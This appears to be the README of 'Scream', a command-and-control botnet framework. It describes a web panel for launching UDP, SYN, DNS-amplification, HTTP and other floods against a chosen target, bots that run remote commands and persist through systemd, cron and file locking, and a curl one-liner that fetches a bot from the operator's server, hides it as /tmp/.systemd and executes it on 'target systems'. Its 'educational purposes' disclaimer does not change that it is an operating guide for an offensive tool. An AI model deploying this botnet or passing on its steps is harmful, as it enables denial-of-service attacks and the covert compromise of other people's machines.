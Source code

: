 # Scream C2 Framework - README

## Overview
Scream is a lightweight Command and Control (C2) framework with integrated stress testing capabilities. This framework provides a web-based interface for managing a botnet and launching various types of network stress tests.

<table>
  <tr>
    <td><img src="https://github.com/user-attachments/assets/736a91e2-4c10-439e-9bf7-128ec9ee7841" width="100%"/></td>
    <td><img src="https://github.com/user-attachments/assets/122e26d1-1b6c-4065-acb3-7af89746fb6a" width="100%"/></td>
  </tr>
  <tr>
    <td><img src="https://github.com/user-attachments/assets/948fb62d-5861-4963-8c15-ee110c31e21d" width="100%"/></td>
    <td><img src="https://github.com/user-attachments/assets/42758c97-a105-4798-a82a-a3229643f98e" width="100%"/></td>
  </tr>
</table>
![image](https://github.com/user-attachments/assets/42758c97-a105-4798-a82a-a3229643f98e)

## Features

### Web-based Management Interface
- Real-time bot monitoring  
- Attack control panel  
- User management system  
- Attack history tracking  

### Stress Testing Capabilities
- UDP Flood  
- TCP Flood  
- SYN Flood  
- ACK Flood  
- GRE Flood  
- DNS Amplification  
- HTTP Flood  

### Bot Management
- Automatic bot connection handling  
- Heartbeat monitoring  
- Hardware resource reporting  
- Remote command execution  

### Security Features
- Challenge-response authentication  
- TLS encrypted communications  
- Session management  
- Password complexity enforcement  

---

## Installation

### Prerequisites
- Go 1.18+ installed  
- Basic server with root access  
- Domain name (recommended for SSL)  

### Quick Start

**Clone the repository:**
```bash
git clone https://github.com/yourusername/scream-c2.git
cd scream-c2
```

**Build the server and bot:**
```bash
go build -o server main.go
go build -o bot bot.go
```

**Generate SSL certificates (if needed):**
```bash
./server --gen-cert
```

**Start the server:**
```bash
./server
```

**Deploy the bot to target systems.**

---

## Configuration

### Server Configuration
The server can be configured by modifying the constants in `main.go`:

```go
const (
    USERS_FILE          = "users.json"         // User database file
    BOT_SERVER_IP       = "0.0.0.0"            // Bot connection interface
    BOT_SERVER_PORT     = "7003"               // Bot connection port
    WEB_SERVER_IP       = "0.0.0.0"            // Web interface interface
    WEB_SERVER_PORT     = "443"                // Web interface port
    CERT_FILE           = "server.crt"         // SSL certificate
    KEY_FILE            = "server.key"         // SSL private key
)
```

### Bot Configuration
Modify the C2 address in `bot.go`:

```go
const (
    C2Address = "your.server.ip:7003" // Change to your server's IP/domain
)
```

---

## Usage

### Accessing the Web Interface
Navigate to `https://your-server-ip` in your browser

**Login with the default credentials:**
- **Username:** `root`
- **Password:** *(generated on first run, check console output)*

### Managing Bots
- The dashboard shows all connected bots  
- View bot details by clicking on a bot in the list  
- Monitor bot status (active/inactive) via the status indicator  

### Launching Attacks
- Select an attack method from the dropdown  
- Enter the target IP/hostname  
- Specify the target port  
- Set the duration (in seconds)  
- Click **"Initiate Attack Sequence"**

### User Management
Admin/Owner users can:
- Create new users  
- Delete existing users  
- Modify user access levels  

---

## Security Considerations

⚠️ **Important Security Notes:**
- Change the default root password immediately after first login  
- Use strong, complex passwords for all user accounts  
- Restrict access to the web interface (firewall rules, VPN, etc.)  
- Regularly monitor and audit user activity  
- Keep the server software updated  

---

## Bot Deployment

### Linux Deployment

```bash
# Download and execute
curl http://your-server-ip/bot -o /tmp/.systemd && chmod +x /tmp/.systemd && /tmp/.systemd
```

### Persistence Methods
The bot includes several persistence mechanisms:
- Systemd service  
- Cron job  
- File locking (prevent deletion)  

---

## Troubleshooting

### Common Issues

#### Bots not connecting:
- Verify the C2 address in the bot binary  
- Check firewall rules on the server  
- Ensure the bot server is running on the correct port  

#### Web interface not loading:
- Verify SSL certificates are properly configured  
- Check if the web server is running  
- Ensure port 443 (or your configured port) is open  

#### Attack not working:
- Verify target IP/port is correct  
- Check if bots are properly connected  
- Ensure the attack method is appropriate for the target  

---

## License
This software is provided for educational and research purposes only. The authors are not responsible for any misuse of this tool.
